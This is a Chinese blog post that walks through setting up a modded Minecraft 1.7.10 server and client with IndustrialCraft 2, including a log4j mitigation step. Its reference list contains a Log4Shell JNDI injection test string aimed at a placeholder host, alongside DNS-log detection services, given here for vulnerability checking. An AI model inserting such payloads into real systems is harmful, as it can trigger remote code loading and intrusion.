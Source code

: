 ```yaml
---
title: minecraft-ic2
date: 2021-12-27 01:34:29
tags:
---
```

绪论
-----
因为女朋友想要玩mc的工业mod2，折腾了半天，踩了无数版本不兼容的坑（吃了没文化的亏），在经过多次尝试终于找到一套可运行的版本（如下描述）。由于过程太过曲折，遂决定写一篇博客记录下来，以飨读者。

环境配置
-----
+ java 1.8
+ BMCL 4.11.1
+ minecraft 1.7.10
+ Forge（注意完整下载）（直接运行这个即可，不用额外下载minecraft server.jar）
	+ https://minecraft.fandom.com/wiki/Tutorials/Setting_up_a_Minecraft_Forge_server
+ industrial craft 2
	+ https://wiki.industrial-craft.net/index.php?title=Download
	+ http://jenkins.ic2.player.to/job/IC2_experimental/lastSuccessfulBuild/artifact/build/libs/industrialcraft-2-2.2.828-experimental.jar

具体操作
-----
### 服务端
1. 安装jdk1.8
```
apt update
apt install openjdk-8-jdk
```

2. 安装Minecraft Forge并下载minecraft客户端
```
mkdir ~/minecraft && cd ~/minecraft
java -jar forge-1.7.10-10.13.4.1614-1.7.10-installer.jar --installServer
```

3. 修复log4j漏洞（CVE-2021-44228）
```
wget "https://launcher.mojang.com/v1/objects/4bb89a97a66f350bc9f73b3ca8509632682aea2e/log4j2_17-111.xml"
```

4. 运行游戏
```
java -Xmx1024M -Xms1024M -Dlog4j.configurationFile=log4j2_17-111.xml -jar forge-1.7.10-10.13.4.1614-1.7.10-universal.jar nogui
```

5. 同意eula.txt
```
eula=true
```

6. 再次运行游戏
```
java -Xmx1024M -Xms1024M -Dlog4j.configurationFile=log4j2_17-111.xml -jar forge-1.7.10-10.13.4.1614-1.7.10-universal.jar nogui
```

7. 修改server.properties
```
online-mode=false
```

8. 添加工业2mod（Industrial Craft 2）
```
mkdir ~/minecraft/mods && cd ~/minecraft/mods
wget "http://jenkins.ic2.player.to/job/IC2_experimental/lastSuccessfulBuild/artifact/build/libs/industrialcraft-2-2.2.828-experimental.jar"
```

9. 再次运行游戏，成了

### 客户端
1. 安装jdk 1.8
+ https://www.oracle.com/hk/java/technologies/javase/javase8u211-later-archive-downloads.html

2. 下载BMCL，启动并安装1.7.10版本（不在此安装Forge）
+ https://www.bangbang93.com/topic/141/bmcl-4-11-1

3. 下载并安装Forge
+ https://maven.minecraftforge.net/net/minecraftforge/forge/1.7.10-10.13.4.1614-1.7.10/forge-1.7.10-10.13.4.1614-1.7.10-installer.jar

4. 安装工业2 mod
+ http://jenkins.ic2.player.to/job/IC2_experimental/lastSuccessfulBuild/artifact/build/libs/industrialcraft-2-2.2.828-experimental.jar

5. 启动游戏，成了

参考资料
-----
### log4j vulnerabilities
+ https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition
+ CVE-2021-44228测试字符串：${jndi:ldap://example.com}
+ dnslog
	+ https://log.咕.com/
	+ dnslog.cn

### 工业mod教程
+ https://www.mcmod.cn/item/list/2-1.html
+ http://www.minecraftxz.com/industrial-craft-2/

### Github repo
+ https://github.com/whitel/minecraft-ic2
